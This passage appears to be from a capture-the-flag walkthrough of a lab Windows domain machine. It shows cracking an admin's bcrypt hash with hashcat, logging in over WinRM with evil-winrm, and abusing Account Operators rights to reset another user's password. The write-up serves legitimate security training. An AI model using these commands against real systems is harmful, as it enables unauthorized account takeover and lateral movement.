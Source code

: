 ### Hash Identification
- **Target:** sara.b (admin role)
- **Hash Type:** bcrypt ($2y$04$...)
- **Cost Factor:** 04 (relatively weak)

---

## Phase 5: Hash Cracking

### Cracking Methodology
```bash
# Extract target hash
echo '$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6' > sara_hash.txt

# Execute hashcat attack
hashcat -m 3200 sara_hash.txt /usr/share/wordlists/rockyou.txt --force
```

### Successful Credential Recovery
**Result:** `sara.b:Blink182`

---

## Phase 6: Initial Foothold & Privilege Analysis

### WinRM Authentication
```bash
evil-winrm -i certificate.htb -u sara.b -p 'Blink182'
```

### Privilege Assessment
```powershell
whoami /all
```

**Critical Group Memberships:**
- `BUILTIN\Account Operators` → Password reset capabilities
- `BUILTIN\Certificate Service DCOM Access` → Certificate services access
- `CERTIFICATE\Help Desk` → Custom domain privileges

---

## Phase 7: Lateral Movement via Account Operators

### Password Reset Exploitation
```powershell
# Reset ryan.k password using Account Operators privilege
Set-ADAccountPassword -Identity "ryan.k" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "SecureTemp2024!" -Force)

# Verify successful reset
Get-ADUser -Identity "ryan.k" -Properties PasswordLastSet
```
